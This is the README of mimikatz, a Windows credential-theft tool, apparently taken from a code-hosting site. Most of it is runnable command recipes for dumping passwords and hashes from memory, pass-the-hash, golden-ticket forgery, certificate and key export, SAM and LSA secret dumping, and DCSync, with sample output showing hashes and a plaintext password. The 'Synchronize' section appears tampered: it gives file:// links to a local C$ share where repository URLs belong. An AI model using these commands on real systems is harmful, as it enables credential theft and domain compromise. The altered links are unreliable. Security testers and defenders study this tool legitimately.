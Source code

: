 # mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */


mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/gentilkiwi/mimikatz/wiki or on http://blog.gentilkiwi.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/gentilkiwi/mimikatz/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`mimikatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `mimikatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `mimikatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`mimikatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : <a href=file://127.0.0.1/c$/>test</a>
* SVN URL is  : file://127.0.0.1/c$/
* ZIP file is : file:///

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `mimikatz` is now built and ready to be used! (`Win32` / `x64` even `ARM64` if you're lucky)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `mimikatz` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* http://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme
* _http://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader_

## Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

`mimikatz` needs coffee to be developed:
* PayPal: https://www.paypal.me/delpy/

## Author
* Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )
* DCSync and DCShadow functions in `lsadump` module were co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
